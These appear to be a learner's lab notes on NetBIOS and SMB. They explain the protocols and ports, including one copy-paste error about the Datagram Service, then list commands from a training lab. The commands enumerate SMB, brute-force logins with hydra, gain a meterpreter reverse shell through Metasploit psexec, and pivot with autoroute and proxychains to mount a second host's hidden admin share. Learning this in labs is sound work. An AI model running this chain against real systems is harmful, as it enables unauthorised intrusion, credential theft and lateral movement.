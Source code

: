 SMB and NetBIOS enumeration
- NetBIOS and SMB are two different technologies,but they are related in the context of networking and file sharing on windows networks.
- Let's break down each of them to understand their roles and how they differ.
#### NetBIOS (Network basic Input/Output System )
- NetBIOS is an API and a set of network protocols for providing communication services over a local network.It's used primarily to allow applications on different computers to find and interact with each other on a network.
- Functions:NetBIOS offer three primary services:
- Name Services (NetBIOS-NS):Allow computers to register.unregister and resolve names in a local network.
- Datagram Service (NetBIOS-DGM):Supports connection-oriented communications for more reliable data transfers.
- Sessions Service (NetBIOS-SSN):Supports connection-oriented communications for more reliable data transfers.
- Ports:NetBIOS typically uses ports 137(Name Service),138(Datagram Service),and 139(Sessions Service) over UDP and TCP.
#### SMB (Server Message Block)
- SMB is a network file sharing protocol that allows computers on a network to share files,printers and other resources .It is the primary portocol used in Windows networks for these purposes.
- Functions:SMB provides features for file and printers sharing,names pipes and inter-process communication(IPS).It allows users to access files on remote computers as i fthey were loccal.
- Versions:SMB has several versions:
  + SMB 1.0: The original version,which had security vulnerabilities.It was used with older operating systems like Windows xp.
  + SMB 2.0/2.1: Introduced with Windows vista/windows server 2008,offering improved performance and security.
  + SMB 3.0+:Introduced with  windows 8/Windows server 2012,adding features like encryption,multicahnnel supports,and improvements for virtualization
- Ports:SMB  generally uses port 445 for direct SMB traffic( bypassing NetBIOS) port 139 when operating with netbios.

### lab
#### netbios
- nmap demo.ine.local
- nbtscan [kali linux tool ]
- nbtscan 10.10.4.0/24 [ scan whole LAN and find windows hosts ]
- nmblookup -A 10.4.30.139 [ nmblookup is a kali linux tool]
- nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn 10.4.30.139 []
#### smb
- nmap -sV -p 139,445 demo.ine.local [ basic port scan ]
- nmap -p445 --script smb-protocols demo.ine.local [ smb versions ]
-  nmap -p445 --script smb-security-mode demo.ine.local [ smb security level ]
- smbclient -L demo.ine.local [ annoymous access ]
- nmap -p445 --script smb-enum-users.nse 10.4.30.139 [ user enumeration ]
- hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb [ use the user name found in the previous command  as users.txt ]
- psexec.py administrator@demo.ine.local [ use the previously found credentials like administrator to login ]
- msfconsole -q 
- search psexec
- use exploit/windows/smb/psexec
- set everything requires
- set payload windows/x64/meterpreter/reverse_tcp  
- run
- this give a meterpreter sessions
##### Pivoting
- As we access the first machine now from the first machine meterpreter shell
- shell
- ping 10.4.26.4 [ ping the 2nd machine from first machine ]
- run autoroute -s 10.4.26.0/20 [ add the route via the first compromise machine to 2nd machine ]
- ctrl + z [ background the meterpreter shell ]
- search socks [ find socks module ]
- use auxiliary/server/socks_proxy 
- set VERSION 4a
- set SRVPORT 9050 [cat /etc/proxychains4.conf this will show the srvport,in this case 9050 ,use this cat command in new tab]
- run [ the session will run in background ]
- netstate -antp [ run this command in new to list the running process with port,we find 9050 port is running ]
- proxychains nmap demo1.ine.local -sT -sV -p 445  [ now we can reach demo1.ine.local as we set proxy chain previous commands and this command give basic info of demo1.ine.local ]
- sessions 2 [now back to meterpreter sessions ]

- shell 
- net view 10.4.26.4 [ this show access denied ]
- ctrl + c 
- migrate -N explorer.exe
- shell 
- net view 10.4.26.4 [ this will show all the share names ]
- net use D: \\10.4.26.4\Documents [It will connect the shared folder Documents on the remote host 10.4.26.4 and assign it to drive letter D: on your local machine.]
- net use K: \\10.4.26.4\k$ [$ symbol means adminitrative hidden ]
- dir K: [ then we access it as normal drive or files ]
#### Tools:
- nbtscan
- nmblookup
- smbclient
- proxychians
#### Resource
- https://medium.com/@sam_sepiol_/pivoting-deep-into-networks-proxychains-and-metasploit-autoroute-in-action-56339d66e466

